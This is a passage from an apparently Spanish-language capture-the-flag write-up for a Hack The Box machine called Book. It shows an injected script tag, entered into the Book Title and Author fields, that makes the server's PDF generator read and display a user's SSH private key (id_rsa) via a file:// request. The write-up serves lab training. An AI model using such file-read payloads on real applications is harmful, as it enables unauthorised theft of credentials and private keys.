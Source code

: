 ![](/assets/images/htb-book/book-pdf1.png)

Vemos el archivo `/etc/passwd`, por lo que podemos visualizar el contenido de archivos internos del sistema; por lo tanto, algo que podriamos intentar hacer es tratar de leer el archivo `id_rsa` del usuario **reader** y suponiendo que se encuentra bajo al ruta `/home/reader/.ssh/id_rsa`. Ejecutaríamos la siguiente instrucción en los campos **Book Title** y **Author**:

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
